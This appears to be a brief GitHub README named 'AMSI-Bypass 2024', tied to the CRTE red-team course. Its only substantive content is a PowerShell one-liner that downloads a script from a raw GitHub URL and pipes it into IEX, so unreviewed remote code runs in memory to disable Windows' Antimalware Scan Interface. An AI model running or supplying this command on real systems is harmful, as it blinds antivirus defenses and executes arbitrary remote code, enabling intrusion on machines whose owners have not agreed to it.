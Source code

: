 # AMSI-Bypass 2024

Bypass AMSI from CRTE Journey
## Command
```powershell
Invoke-Webrequest "https://raw.githubusercontent.com/0xBugatti/AMSI-Bypass/refs/heads/main/MS-AMUpdate.ps1"|IEX
```
